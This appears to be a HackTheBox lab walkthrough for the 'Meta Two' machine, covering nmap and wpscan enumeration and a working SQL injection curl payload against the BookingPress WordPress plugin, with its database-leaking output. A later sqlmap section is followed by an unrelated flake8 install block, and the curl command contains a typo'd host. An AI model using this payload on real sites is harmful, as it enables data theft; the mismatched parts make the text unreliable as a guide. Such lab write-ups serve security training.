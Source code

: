 #+title: Meta Two

** Connection and nmap
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

#+begin_src shell :results output :wrap "quote"
sudo nmap -sC -sV -T4 10.10.11.186
#+end_src

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

** First steps

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:

#+begin_src shell :results output :wrap "quote"
ftp 10.10.11.186
#+end_src

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is http://metapress.htb/.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

** Looking for vulnerabilities

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

#+begin_src shell
wpscan --url http://metapress.htb
#+end_src

#+RESULTS:

You can look them up in https://wpscan.com/wordpress/562 and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
#+begin_src shell
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
#+end_src

#+RESULTS:

You should replace the nonce with the one that you can find in the source code, and the output will be like this:

#+begin_quote
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
#+end_quote

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

#+begin_src shell :results output
pip install --upgrade flake8
#+end_src

#+RESULTS:
#+begin_quote


: Defaulting to user installation because normal site-packages is not writeable
: Requirement already satisfied: flake8 in /home/fede/.local/lib/python3.8/site-packages (6.0.0)
: Requirement already satisfied: mccabe<0.8.0,>=0.7.0 in /home/fede/.local/lib/python3.8/site-packages (from flake8) (0.7.0)
: Requirement already satisfied: pyflakes<3.1.0,>=3.0.0 in /home/fede/.local/lib/python3.8/site-packages (from flake8) (3.0.1)
: Requirement already satisfied: pycodestyle<2.11.0,>=2.10.0 in /home/fede/.local/lib/python3.8/site-packages (from flake8) (2.10.0)

#+end_quote
